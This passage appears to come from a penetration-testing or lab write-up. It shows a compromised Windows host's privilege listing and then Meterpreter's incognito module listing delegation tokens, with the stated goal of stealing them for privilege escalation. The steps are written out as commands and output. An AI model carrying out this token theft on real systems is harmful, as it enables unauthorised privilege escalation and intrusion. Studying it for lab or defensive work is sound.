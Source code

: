 ```
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

We will be using incognito mode to steal tokens.

`meterpreter > use incognito `

```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
```